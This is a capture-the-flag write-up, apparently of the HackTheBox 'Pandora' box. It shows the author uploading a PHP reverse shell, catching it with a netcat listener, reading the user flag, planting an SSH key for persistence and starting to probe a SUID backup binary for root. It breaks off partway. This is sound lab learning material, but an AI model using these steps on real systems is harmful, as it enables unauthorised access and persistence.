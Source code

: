 I first tried to upload an image I had in my Kali VM. The image was uploaded and was then available at http://127.0.0.1/pandora_console/images/mountains.jpg . I then uploaded php-reverse-shell.php, started a netcat listener, and accessed the PHP file in my browser. 

```bash
$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.136.63 38486
Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 12:28:10 up 17 min,  1 user,  load average: 0.07, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
daniel   pts/0    10.10.14.19      12:26    1:48   0.02s  0.02s -bash
uid=1000(matt) gid=1000(matt) groups=1000(matt)

$ whoami
matt

$ cat /home/matt/user.txt
REDACTED
```

I was connected as matt, and I had the first flag. 

## Getting root

Now I needed to get root. But first I wanted to have a better shell. So I copied my public key to the server and reconnected with SSH.

```bash
$ cd /home/matt

$ mkdir .ssh

$ echo "ssh-rsa PUBLIC_KEY eric@kali" >> .ssh/authorized_keys


$ chmod 700 .ssh
$ chmod 600 .ssh/authorized_keys
```

Getting root was simple since I had already found the suid binary earlier. Having the suid bit set meant that when matt executed the binary file, it would run with the owner (root) privileges. So if I could use it to start a shell, it would be a root shell. 

```bash
matt@pandora:~$ ls -la /usr/bin/pandora_backup
-rwsr-x--- 1 root matt 16816 Dec  3 15:58 /usr/bin/pandora_backup

matt@pandora:~$ file /usr/bin/pandora_backup
/usr/bin/pandora_backup: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=7174c3b04737ad11254839c20c8dab66fce55af8, for GNU/Linux 3.2.0, not stripped

matt@pandora:~$ strings /usr/bin/pandora_backup

Command 'strings' not found, but can be installed with:

apt install binutils
Please ask your administrator.
```
